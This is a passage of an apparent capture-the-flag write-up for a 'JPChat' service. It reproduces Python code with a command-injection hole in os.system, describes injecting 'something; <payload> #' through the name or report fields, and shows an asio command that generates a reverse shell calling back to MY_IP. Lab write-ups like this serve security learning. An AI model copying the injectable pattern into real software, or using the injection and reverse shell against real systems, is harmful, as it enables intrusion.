The source code can be found at [https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
What we notice in particular is the `report_form` function.
There are two lines where the script calls bash to execute a command.
```python
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```
Apparently, we can perform an RCE by just injecting our command as `your_name` and/or as `report_text` since those two are input that we can control

We are able to inject our command right where the `%s` stands.

So one thing that we can do is to supply to `echo` a word (even a letter, whatever it is), insert a semicolon, write our payload and then use `#` to comment everything else after our payload.
So the whole command will look like this: `something; <payload> #`

I used [asio](https://github.com/jackrendor/asio) to generate a reverse shell.
```bash
asio -H MY_IP -P 8080 -A -B
```
In this way, `asio` generates a one-liner that's gonna try different payloads. 
